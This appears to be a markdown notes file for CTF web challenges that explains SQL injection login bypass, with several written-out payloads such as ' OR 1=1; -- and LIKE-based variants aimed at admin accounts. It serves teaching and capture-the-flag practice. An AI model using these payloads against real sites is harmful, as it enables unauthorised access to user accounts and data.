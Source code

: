 # Useful notes for Web challenges

- [PHP](php.md)
- [SQL Injection](#sql-injection)
- [XSS](web/xss.md)

## SQL Injection
SQL makes queries into a database with statements like:
```sql
SELECT * FROM users WHERE username='chris' AND password='letmein';
```
This selects all entries from a database table where the username and password match those supplied.

If the user inputted data (the username and password entered in a login box, for example) is passed directly to this query, then what the user enters can manipulate the query.

The basic injection used for hacking the SQL is to enter `' OR 1=1; --` in the username box on the login screen and anything in the password, which would change the above select query to:
```sql
SELECT * FROM users WHERE username='' OR 1=1; -- ' AND password='letmein';
```
This injection first closes the single quote for the `username=''` part, then adds `OR 1=1` (`1=1` is always true in SQL) and then comments out the rest of the line using `--`, so the password has no effect. This updated query will return every row in the `users` table.

If the code checks that at least one row is returned, then this could give you entry to a site.

### Alternative injections to try
Some MySQL databases don't treat the `--` as a single line comment. Use:
```
' OR 1=1; #
```
Try without the semi-colon:
```
' OR 1=1 --
```
Quote the `1` digits:
```
' OR '1'='1' --
```
Use `LIKE` with the wildcard `%` to also match everything:
```
' OR username LIKE '%' --
```
Use `LIKE` with a specific username, which may give you elevated access, as the code may use a returned ID from the table to identify the logged in user:
```
' OR username LIKE 'admin' --
```
Or with a wildcard to get `admin`, `admins`, `administrator`, etc.:
```
' OR username LIKE 'adm%' --
```
